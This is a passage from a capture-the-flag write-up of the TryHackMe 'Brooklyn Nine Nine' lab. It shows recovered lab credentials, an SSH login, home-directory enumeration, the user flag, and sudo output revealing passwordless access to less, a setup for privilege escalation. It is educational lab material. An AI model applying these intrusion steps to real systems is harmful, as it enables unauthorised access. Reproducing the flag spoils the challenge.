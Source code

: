 ✅ **Success!**

* Username: `jake`
* Password: `987654321`

I logged in:

```bash
┌──(kali㉿kali)-[~/Desktop/tryhackme]
└─$ ssh jake@10.10.51.238          
The authenticity of host '10.10.51.238 (10.10.51.238)' can't be established.
ED25519 key fingerprint is SHA256:ceqkN71gGrXeq+J5/dquPWgcPWwTmP2mBdFS2ODPZZU.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.51.238' (ED25519) to the list of known hosts.
jake@10.10.51.238's password: 
Last login: Tue May 26 08:56:58 2020
```

***

### 🧑‍💻 Post-Login Enumeration

Inside `/home`, I found 3 user folders:

* `jake`
* `amy`
* `holt`

In `holt`’s directory, I found:

```bash
jake@brookly_nine_nine:/home/holt$ cat user.txt 
ee11cbb19052e40b07aac0ca060c23ee
```

🎯 **User flag:**

```
ee11cbb19052e40b07aac0ca060c23ee
```

***

### 🔼 Privilege Escalation

#### 🔍 Sudo Enumeration

I checked for sudo permissions:

```bash
sudo -l
```

**Output:**

```bash
jake@brookly_nine_nine:/home/holt$ sudo -l
Matching Defaults entries for jake on brookly_nine_nine:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\\:/usr/local/bin\\:/usr/sbin\\:/usr/bin\\:/sbin\\:/bin\\:/snap/bin

User jake may run the following commands on brookly_nine_nine:
    (ALL) NOPASSWD: /usr/bin/less
```
